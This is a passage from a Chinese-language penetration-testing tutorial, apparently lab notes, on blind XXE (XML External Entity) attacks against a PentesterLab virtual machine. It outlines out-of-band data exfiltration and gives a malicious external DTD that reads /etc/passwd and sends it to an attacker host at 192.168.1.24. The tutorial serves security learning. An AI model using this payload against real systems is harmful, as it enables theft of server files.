 >`Connection refused` 栏有数值，证明端口关闭

## 6 无回显的情况下实现数据外带

![无回显的情况下实现数据外带](./../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E6%97%A0%E5%9B%9E%E6%98%BE%E7%9A%84%E6%83%85%E5%86%B5%E4%B8%8B%E5%AE%9E%E7%8E%B0%E6%95%B0%E6%8D%AE%E5%A4%96%E5%B8%A6.png)

**过程**

1.黑客向目标发送一个 XML 请求 payload，使目标向黑客请求 DTD

2.目标向黑客发送一个 DTD 请求，向黑客请求 DTD

3.黑客向目标发送一个 DTD 到目标

4.目标 XML 解析器解析黑客发来的 DTD

5.解析后将数据发送给黑客

**准备**

配置 `PentesterLab-xxe` 虚拟机

切换至站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# cd /var/www/html/
```

在 Kali 配置一个外部 DTD，用于使目标读取数据，并发送给黑客

```
┌──(root㉿Kali-24)-[~]
└─# vim xxe.dtd
```

```dtd
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.1.24/xxe.php?pass=%p1;'>">
%p2;
```

